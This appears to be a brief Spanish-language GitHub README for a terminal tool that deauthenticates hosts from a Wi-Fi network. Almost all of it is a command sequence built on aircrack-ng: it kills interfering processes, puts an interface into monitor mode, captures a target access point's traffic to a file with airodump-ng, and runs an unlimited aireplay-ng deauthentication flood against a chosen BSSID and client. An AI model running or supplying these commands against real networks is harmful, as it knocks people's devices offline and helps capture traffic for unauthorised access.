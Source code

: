 # wifi-host
Aplicacion de terminal para deautenticar host de una red wifi

sudo pacman -S aircrack-ng

airmon-ng check
airmon-ng check kill

airmon-ng start INTERFACE
airmon-ng stop INTERFACE
  
1) airodump-ng INTERFACE
2) airodump-ng --bssid BSSID --channel CH --write Path INTERFACE
3) aireplay-ng -0 0 -a BSSID -c STATION INTERFACE
